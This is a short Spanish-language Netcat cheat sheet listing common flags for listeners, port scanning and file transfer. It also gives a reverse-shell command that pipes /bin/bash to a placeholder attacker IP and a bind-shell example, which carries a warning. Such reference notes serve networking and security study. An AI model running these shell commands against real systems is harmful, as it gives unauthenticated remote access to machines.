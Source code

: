 

---

Netcat (nc) es una herramienta de red ligera y versátil que permite leer y escribir datos a través de conexiones TCP o UDP. Se usa para depuración, transferencia de archivos, creación de listeners (escuchas), tunneling simple, banner grabbing y escaneo de puertos. Es muy potente (y también puede usarse con fines maliciosos), por lo que debe emplearse con responsabilidad y permisos adecuados.

- Comando mas usado :

```bash
nc -nlvp 4444
```


- Enviar una reverse shell a tu IP atacante para ejecutar la inyección de código, como en el siguiente ejemplo:

```bash
nc -e /bin/bash ipAtacante 4444
```


---

Otros Comandos/flags más usados (con ejemplos):

- `nc <host> <port>` — Conectar a un servicio TCP.  
    Ejemplo: `nc ejemplo.com 80`
    
- `nc -l -p <port>` — Abrir un puerto en modo escucha (server).  
    Ejemplo: `nc -l -p 1234`
    
- `nc -l -p <port> -k` — Escuchar y aceptar múltiples conexiones (mantener abierto).  
    Ejemplo: `nc -l -p 1234 -k`
    
- `nc -u <host> <port>` — Usar UDP en lugar de TCP.  
    Ejemplo: `nc -u 192.168.1.5 53`
    
- `nc -v` / `-vv` — Modo verbose (más información).  
    Ejemplo: `nc -v ejemplo.com 22`
    
- `nc -n` — No resolver DNS (usar direcciones numéricas).  
    Ejemplo: `nc -n 10.0.0.1 22`
    
- `nc -z -v <host> <ports>` — Escaneo rápido de puertos (modo “zero-I/O”).  
    Ejemplo: `nc -z -v 10.0.0.1 20-80`
    
- `nc -w <seconds>` — Timeout para conexiones o lectura.  
    Ejemplo: `nc -w 3 ejemplo.com 80`
    
- Transferir archivos (sender/receiver):  
    Receptor: `nc -l -p 1234 > archivo_recibido`  
    Emisor: `nc <ip_receptor> 1234 < archivo_a_enviar`
    
- Ejecutar un shell remoto (opción peligrosa y a menudo deshabilitada): `nc -l -p 4444 -e /bin/bash` — **Advertencia:** esto abre un shell remoto sin autenticación; puede comprometer el equipo y muchas distros deshabilitan `-e`.
